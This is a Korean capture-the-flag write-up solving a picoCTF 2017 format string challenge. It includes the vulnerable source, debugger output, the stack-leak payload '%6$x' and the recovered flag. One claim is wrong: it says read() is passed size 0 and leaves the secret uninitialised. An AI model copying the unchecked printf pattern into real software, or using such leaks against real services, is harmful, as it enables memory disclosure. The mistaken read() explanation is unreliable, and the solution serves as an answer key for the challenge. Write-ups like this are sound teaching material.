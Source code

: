 `#FSB`
# 목차
1. [Description](#description)
2. [분석](#분석)
	1. [목표 확인](#목표-확인)
	2. [취약점 확인 (FSB)](#취약점-분석-fsb)
3. [공격 루틴](#공격-루틴)
	1. [secret 은 몇번째인지](#secret-은-몇번째인지)
4. [Flag](#flag)
## Description
> 바이너리 [secret](https://webshell2017.picoctf.com/static/2d756322664bc048224f02ad0a62a0bc/secret) 랑 [소스코드](https://webshell2017.picoctf.com/static/2d756322664bc048224f02ad0a62a0bc/secret.c)가 주어진다.  
> nc  shell2017.picoctf.com 55189  
  
```
     1  #include <stdio.h>
     2  #include <fcntl.h>
     3  #include <unistd.h>
     4  #include <stdlib.h>
     5
     6  #define BUF_LEN 64
     7  char buffer[BUF_LEN];
     8
     9  int main(int argc, char** argv) {
    10      int fd = open("/dev/urandom", O_RDONLY);
    11      if(fd == -1){
    12          puts("Open error on /dev/urandom. Contact an admin\n");
    13          return -1;
    14      }
    15      int secret;
    16      if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    17          puts("Read error. Contact admin!\n");
    18          return -1;
    19      }
    20      close(fd);
    21      printf("Give me something to say!\n");
    22      fflush(stdout);
    23      fgets(buffer, BUF_LEN, stdin);
    24      printf(buffer);
    25
    26      int not_secret;
    27      printf("Now tell my secret in hex! Secret: ");
    28      fflush(stdout);
    29      scanf("%x", &not_secret);
    30      if(secret == not_secret){
    31          puts("Wow, you got it!");
    32          system("cat ./flag.txt");
    33      }else{
    34          puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    35      }
    36
    37      return 0;
    38  }
```
## 분석
### 목표 확인
```
    30      if(secret == not_secret){
    31          puts("Wow, you got it!");
    32          system("cat ./flag.txt");
    33      }
```
secret 과 not_secret 이 같아야 키값을 얻을 수 있습니다.  

```
    15      int secret;
```
secret 은 무엇이냐면  
정수형 변수이고  

```
    16      if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    17          puts("Read error. Contact admin!\n");
    18          return -1;
    19      }
```
fd 라는 파일디스크립터로부터 읽어들입니다.  
그런데 read 의 매개변수 중  
세번째에 들어가는 값은 False.  
즉, size=0  
  
한마디로 한 바이트도 읽어들이지 않고  
또 초기화되지 않았으므로  
secret 에 저장되는 값은 쓰레기값 되시겠다.  
  
__if문의 조건문은 항상 False(0) 이니깐  
admin에게 연락할 일 없겠군요__  

```
    26      int not_secret;
    27      printf("Now tell my secret in hex! Secret: ");
    28      fflush(stdout);
    29      scanf("%x", &not_secret);
```
not_secret 은  
29번째 줄에서  
16진수 소문자로  
입력받는다.  

### 취약점 분석 (FSB)
```
    24      printf(buffer);
```
24번째 줄을  보면  
포맷 스트링 버그가 보입니다.  
그럼 buffer 는 어디에서 받느냐!  

```
    23      fgets(buffer, BUF_LEN, stdin);
```
fgets 에서 입력받는다.  
딱 BUF_LEN 만큼 받는데  

```
     6  #define BUF_LEN 64
```
그 크기는 64 이다.  

## 공격 루틴
아하!  
secret 에 쓰레기값이 저장되고  
24번째 줄에서 FSB로 secret 을 leak 하고  
29번째 줄에서 not_secret 에 값을 입력하면 되는구나!  

### secret 은 몇번째인지
FSB 를 사용하려면 secret 이 몇번째인지 알아야한다.  

```
# file ./secret
./secret: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=25d674d62f2f6070f9f87664bbd5b6aa5c045ef0, not stripped
```
일단 32비트 바이너리이고  

```
   0x08048636 <+75>:    lea    eax,[ebp-0x10]
   0x08048639 <+78>:    push   eax
   0x0804863a <+79>:    push   DWORD PTR [ebp-0xc]
   0x0804863d <+82>:    call   0x8048440 <read@plt>
```
32비트 바이너리는 제일 마지막에 push 되는 데이터가 첫번째 매개변수이다.  
main+75 를 보면 ebp-0x10 이 secret 이다.  

```
nc shell2017.picoctf.com 55189
Give me something to say!
%x %x %x %x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 d7838ff3 3 f7fc73c4 ffffdca0
Now tell my secret in hex! Secret:
```
```
pwndbg> stack
00:0000│ esp  0xffffd220 —▸ 0x8049b40 (buffer) ◂— 0x70257025 ('%p%p')
01:0004│      0xffffd224 ◂— 0x40 /* '@' */
02:0008│      0xffffd228 —▸ 0xf7f9b5c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
03:000c│      0xffffd22c —▸ 0x8048792 (__libc_csu_init+82) ◂— add    edi, 1
04:0010│      0xffffd230 ◂— 0x1
05:0014│      0xffffd234 —▸ 0xffffd2f4 —▸ 0xffffd445 ◂— 0x746e6d2f ('/mnt')
06:0018│      0xffffd238 ◂— 0x11aad860
07:001c│      0xffffd23c ◂— 0x3
08:0020│      0xffffd240 —▸ 0xf7fe59a0 ◂— push   ebp
09:0024│      0xffffd244 —▸ 0xffffd260 ◂— 0x1
0a:0028│ ebp  0xffffd248 ◂— 0x0
```
```
pwndbg> x/wx $ebp-0x10
0xffffd238:     0x11aad860
```
비교해보니 6번째라는 것을 알았다.  

## Flag
```
# nc shell2017.picoctf.com 55189
Give me something to say!
%6$x
a6aa3c3a
Now tell my secret in hex! Secret: a6aa3c3a
a18450ba7aaa8c085c522cdef6ab35ab
Wow, you got it!
```
